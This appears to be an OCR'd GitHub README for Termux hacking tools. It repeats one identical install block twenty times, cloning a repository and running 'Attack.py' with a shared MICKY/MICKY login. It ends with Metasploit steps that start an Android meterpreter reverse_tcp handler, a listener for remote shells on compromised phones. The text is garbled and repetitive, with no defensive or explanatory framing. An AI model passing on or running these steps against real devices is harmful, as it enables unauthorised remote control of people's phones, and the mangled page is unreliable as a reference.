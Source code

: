 
⭕No 1
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY

⭕No 2
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY
⭕No 3
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY
⭕No 4
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY
⭕No 5
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY
⭕No 6
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY
⭕No 7
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY
⭕No 8
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY
⭕No 9
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY

⭕No 10
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY
⭕No 11
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY
⭕No 12
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY
⭕No 13
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY
⭕No 14
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY
⭕No 15
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY
⭕No 16
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY

⭕No 17
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY
⭕No 18
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY

⭕No 19
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY

⭕No 20
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MICKYVIRUSXD/World
cd World
python2 Attack.py

User Name : MICKY
Password   : MICKY

#Metasploit Commands
》》Requirements:-

1: Termux App (From Playstore)
2: Good Internet connection  (Must)
3: 2GB free Storage  (Must)
4: Android Version 5.0+ (Must)
5: 4GB+ RAM
6: Fast Processor

#installation

1: pkg update
2: pkg upgrade
3: pkg install unstable-repo
4: pkg install metasploit
5: msfconsole
6: use exploit/multi/handler
7: set payload android/meterpreter/reverse_tcp 
8: set lhost 
8: set lport 8080
10: exploit
